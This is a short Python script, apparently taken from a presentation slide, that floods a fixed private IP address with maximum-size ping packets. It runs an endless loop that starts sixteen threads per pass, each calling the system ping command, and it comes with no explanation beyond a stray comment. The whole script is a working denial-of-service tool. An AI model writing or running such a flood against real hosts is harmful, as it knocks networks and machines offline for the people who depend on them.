

# We ?
import os
import _thread

i=1

hostname="10.5.159.254"

def ping():
  response=os.system("ping -c 1 -s 65535 " + hostname)
  if response==0:
    print("ok")

def wow2():
    while i:
        _thread.start_new_thread(ping,())
        _thread.start_new_thread(ping,())
        _thread.start_new_thread(ping,())
        _thread.start_new_thread(ping,())
        _thread.start_new_thread(ping,())
        _thread.start_new_thread(ping,())
        _thread.start_new_thread(ping,())
        _thread.start_new_thread(ping,())
        _thread.start_new_thread(ping,())
        _thread.start_new_thread(ping,())
        _thread.start_new_thread(ping,())
        _thread.start_new_thread(ping,())
        _thread.start_new_thread(ping,())
        _thread.start_new_thread(ping,())
        _thread.start_new_thread(ping,())
        _thread.start_new_thread(ping,())

def wow():
    wow2()

wow()